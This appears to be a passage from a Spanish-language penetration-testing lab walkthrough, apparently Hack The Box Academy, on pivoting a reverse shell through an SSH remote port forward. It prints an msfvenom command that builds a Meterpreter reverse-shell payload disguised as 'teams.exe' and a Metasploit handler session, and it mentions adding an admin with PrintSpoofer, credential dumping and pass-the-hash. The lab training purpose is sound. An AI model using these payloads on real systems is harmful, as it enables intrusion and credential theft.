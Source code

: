 Hay muchas formas de atacar esta red y lograr los mismos resultados, por lo que no las cubriremos todas aquí, pero una que vale la pena mencionar es [Remote/Reverse Port Forwarding with SSH](https://academy.hackthebox.com/module/158/section/1427). Digamos que queremos devolver una reverse shell desde el box `DEV01` a nuestro host de ataque. No podemos hacer esto directamente ya que no estamos en la misma red, pero podemos aprovechar `dmz01` para realizar reverse port forwarding y lograr nuestro objetivo. Podríamos querer obtener una Meterpreter shell en el objetivo o una reverse shell directamente por cualquier número de razones. También podríamos haber realizado todas estas acciones sin obtener nunca una shell, ya que podríamos haber usado `PrintSpoofer` para agregar un administrador local o volcar credenciales desde `DEV01` y luego conectarnos al host de cualquier número de formas desde nuestro host de ataque usando Proxychains (pass-the-hash, RDP, WinRM, etc.). Vea cuántas formas puede lograr la misma tarea de interactuar con el host `DEV01` directamente desde su host de ataque. Es esencial ser versátil, y esta red de laboratorio es un gran lugar para practicar tantas técnicas como sea posible y perfeccionar nuestras habilidades.

Repasemos rápidamente el método de reverse port forwarding. Primero, necesitamos generar un payload usando `msfvenom`. Tenga en cuenta que aquí especificaremos la dirección IP del host pivote `dmz01` en el campo `lhost` y NO nuestra IP de host de ataque ya que el objetivo no podría conectarse a nosotros directamente.

```r
msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.8.120 -f exe -o teams.exe LPORT=443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 787 bytes
Final size of exe file: 7168 bytes
Saved as: teams.exe
```

A continuación, necesitamos configurar un `multi/handler` y comenzar un listener en un puerto diferente al que el payload que generamos usará.

```r
[msf](Jobs:0 Agents:0) exploit(windows/smb/smb_delivery) >> use multi/handler
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 0.0.0.0
lhost => 0.0.0.0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 7000
lport => 7000
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started HTTPS reverse handler on https://0.0.0.0:7000
```

Luego, necesitamos subir el payload de reverse shell `teams.exe` al host objetivo `DEV01`. Podemos SCPearlo hasta `dmz01`, iniciar un servidor web Python en ese host y luego descargar el archivo. Alternativamente, podemos usar el administrador de archivos de DNN para subir el archivo como hicimos anteriormente. Con el payload en el objetivo, necesitamos configurar `SSH remote port forwarding` para reenviar el puerto `443` del box pivote dmz01 al puerto `7000` del listener de Metasploit. El flag `R` le dice al host pivote que escuche en el puerto `443` y reenvíe todo el tráfico entrante a este puerto a nuestro listener de Metasploit en `0.0.0.0:7000` configurado en nuestro host de ataque.
